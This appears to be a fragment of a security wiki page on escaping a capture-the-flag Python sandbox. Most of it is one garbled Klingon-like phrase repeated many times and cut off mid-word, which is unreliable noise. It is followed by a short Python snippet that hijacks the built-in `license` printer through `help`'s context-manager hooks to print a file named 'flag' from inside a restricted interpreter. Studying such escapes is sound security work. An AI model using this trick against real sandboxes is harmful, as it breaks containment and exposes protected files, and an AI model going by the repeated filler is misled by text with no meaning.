 jatlhlaHbe'chugh 'e' vItlhutlh. 'e' vItlhutlh qarDaS jatlhlaHbe'chugh 'e' vItlhutlh. 'e' vItlhutlh qarDaS jatlhlaHbe'chugh 'e' vItlhutlh. 'e' vItlhutlh qarDaS jatlhlaHbe'chugh 'e' vItlhutlh. 'e' vItlhutlh qarDaS jatlhlaHbe'chugh 'e' vItlhutlh. 'e' vItlhutlh qarDaS jatlhlaHbe'chugh 'e' vItlhutlh. 'e' vItlhutlh qarDaS jatlhlaHbe'chugh 'e' vItlhutlh. 'e' vItlhutlh qarDaS jatlhlaHbe'chugh 'e' vItlhutlh. 'e' vItlhutlh qarDaS jatlhlaHbe'chugh 'e' vItlhutlh. 'e' vItlhutlh qarDaS jatlhlaHbe'chugh 'e' vItlhutlh. 'e' vItlhutlh qarDaS jatlhlaHbe'chugh 'e' vItlhutlh. 'e' vItlhutlh qarDaS jatlhlaHbe'chugh 'e' vItlhutlh. 'e' vItlhutlh qarDaS jatlhlaHbe'chugh 'e' vItlhutlh. 'e' vItlhutlh qarDaS jatlhlaHbe'chugh 'e' vItlhutlh. 'e' vItlhutlh qarDaS jatlhlaHbe'chugh 'e' vItlhutlh. 'e' vItlhutlh qarDaS jatlhlaHbe'chugh 'e' vItlhutlh. 'e' vItlhutlh qarDaS jatlhlaHbe'chugh 'e' vItlhutlh. 'e' vItlhutlh qarDaS jatlhlaHbe'chugh 'e' vItlhutlh. 'e' vItlhutlh qarDaS jatlhlaHbe'ch
```python
__builtins__.__dict__["license"]._Printer__filenames=["flag"]
a = __builtins__.help
a.__class__.__enter__ = __builtins__.__dict__["license"]
a.__class__.__exit__ = lambda self, *args: None
with (a as b):
pass
```
<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>
